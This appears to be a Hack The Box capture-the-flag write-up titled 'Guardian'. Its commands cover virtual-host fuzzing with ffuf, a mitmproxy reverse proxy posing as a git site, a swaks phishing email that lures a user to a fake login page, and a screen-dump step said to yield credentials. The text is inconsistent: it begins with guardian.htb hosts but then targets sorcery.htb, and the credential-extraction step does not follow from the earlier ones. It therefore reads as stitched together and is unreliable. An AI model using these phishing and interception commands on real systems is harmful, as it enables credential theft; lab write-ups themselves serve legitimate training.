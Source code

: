 ```yaml
---
layout: default
title: Guardian
platform: Hack The Box
---
```


Add the IPs to `/etc/hosts`:

<pre><code><span style="color:#ffffff">10.10.11.84 guardian.htb
10.10.11.84 portal.guardian.htb
10.10.11.84 gitea.guardian.htb
</span></code></pre>

Visit [https://guardian.htb](https://guardian.htb) and enumerate the repository:

<pre><code><span style="color:#00ff00">git</span><span style="color:#ffffff"> clone https://git.sorcery.htb/nicole_sullivan/infrastructure.git</span></code></pre>

Enumerate virtual hosts with `ffuf`:

<pre><code><span style="color:#00ff00">ffuf</span><span style="color:#ffffff"> -w /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt -u https://sorcery.htb -H </span><span style="color:#ffd700">"Host: FUZZ.sorcery.htb"</span><span style="color:#ffffff"> -mc 200

        /'___\  /'___\           /'___\       
       /\ \__/ /\ \__/  __  __  /\ \__/       
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\      
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/      
         \ \_\   \ \_\  \ \____/  \ \_\       
          \/_/    \/_/   \/___/    \/_/       

       v2.1.0-dev
________________________________________________

 :: Method           : GET
 :: URL              : https://sorcery.htb
 :: Wordlist         : FUZZ: /usr/share/payloads/seclists/Discovery/DNS/subdomains-top1million-5000.txt
 :: Header           : Host: FUZZ.sorcery.htb
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200
________________________________________________

:: Progress: [28/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: :: Progress: [40/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: :: Progress: [80/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :: :: Progress: [162/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :::: Progress: [246/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :::: Progress: [325/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] ::==git                     [Status: 200, Size: 13591, Words: 1048, Lines: 272, Duration: 123ms]==
:: Progress: [340/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :::: Progress: [410/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] :::: Progress: [490/4989] :: Job [1/1] :: 0 req/sec :: Duration: [0:00:00] ::

</span></code></pre>



This reveals `git.sorcery.htb`; add it to `/etc/hosts` and create an account on the site, then log in.

Capture traffic with a rogue host and `mitmproxy`:

<pre><code><span style="color:#00ff00">sudo</span><span style="color:#ffffff"> </span><span style="color:#00ff00">mitmproxy</span><span style="color:#ffffff"> --mode reverse:https://git.sorcery.htb --certs pwn.sorcery.htb.pem -k -p 443</span></code></pre>

Send a phishing email to capture credentials:

<pre><code><span style="color:#00ff00">proxychains4</span><span style="color:#ffffff"> -f /etc/proxychains4.conf </span><span style="color:#00ff00">swaks</span><span style="color:#ffffff"> --to tom_summers@sorcery.htb --from nicole_sullivan@sorcery.htb --server 172.19.0.10 --port 1025 --data </span><span style="color:#ffd700">"Subject: Security Alert\n\nPlease verify your account at https://pwn.sorcery.htb/user/login"</span></code></pre>

Extract the captured credentials from the proxied session:

<pre><code><span style="color:#00ff00">magick</span><span style="color:#ffffff"> xwd:Xvfb_screen0 credentials.png
</span><span style="color:#00ff00">open</span><span style="color:#ffffff"> credentials.png</span></code></pre>

*Screenshots omitted.*
